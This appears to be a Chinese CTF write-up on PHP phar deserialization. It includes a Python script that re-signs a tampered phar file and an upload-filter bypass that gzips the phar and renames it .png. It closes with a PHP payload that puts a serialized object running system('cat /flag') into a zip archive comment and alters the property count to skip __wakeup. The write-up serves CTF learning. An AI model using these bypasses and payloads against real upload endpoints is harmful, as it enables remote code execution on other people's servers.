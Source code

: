 得到

![image-20220828180341149](D:\Typora\note\CTF\web\知识点\phar反序列化.assets\image-20220828180341149.png)

然后在<font color='red'>**010editor**</font>里把3改为4，因为记事本直接改好像改的是八进制，改了之后连文件都打不开了(无关签名)
接着改签名

```python
from hashlib import sha1
f = open('./phar.phar', 'rb').read() # 修改内容后的phar文件
s = f[:-28] # 获取要签名的数据
h = f[-8:] # 获取签名类型以及GBMB标识
newf = s+sha1(s).digest()+h # 数据 + 签名 + 类型 + GBMB
open('22.phar', 'wb').write(newf) # 写入新文件
```

我也不知道这是怎么实现改签名的，但是好像什么phar文件改后都可以用这个改...

![image-20220828180609292](D:\Typora\note\CTF\web\知识点\phar反序列化.assets\image-20220828180609292.png)

在upload里有检查白名单和phar的头文件的，所以你直接改phar文件后缀也是不行的
这里要用到压缩绕过，将phar文件压缩后，后缀改为png
而且这里必须要用linux的gzip压缩，具体原因未知，反正windows直接压缩⑧行
然后`phar://./upload/2.phar.png/22.phar`就可得到flag

![image-20220828180752337](D:\Typora\note\CTF\web\知识点\phar反序列化.assets\image-20220828180752337.png)



<font color='red'>**tips:**</font>
**压缩混淆：**原理就是用其他的压缩格式再对phar文件进行压缩达到混淆的效果， 部分压缩格式混淆过的phar内容同样可以直接被phar://伪协议解析(很明显，gzip是可以的)
**phar://**只争对文件里的数据，并不处理后缀

![image-20220828184843047](D:\Typora\note\CTF\web\知识点\phar反序列化.assets\image-20220828184843047.png)

### 新解法

```php
<?php
class LoveNss{
    public $ljt;
    public $dky;
    public $cmd;
    public function __construct(){
        $this->ljt="ljt";
        $this->dky="dky";
        phpinfo();
    }
}
$a = new LoveNss();
$a -> ljt = "Misc";
$a -> dky = "Re";
$a -> cmd = "system('cat /flag');";
$payload = serialize($a);
$final = str_replace("s\":3","s\":4",$payload);
echo $final;

$zip = new ZipArchive();
$res = $zip->open('nss.zip',ZipArchive::CREATE); 
$zip->addFromString('crispr.txt', 'file content goes here');
$zip->setArchiveComment($final);
$zip->close();
```
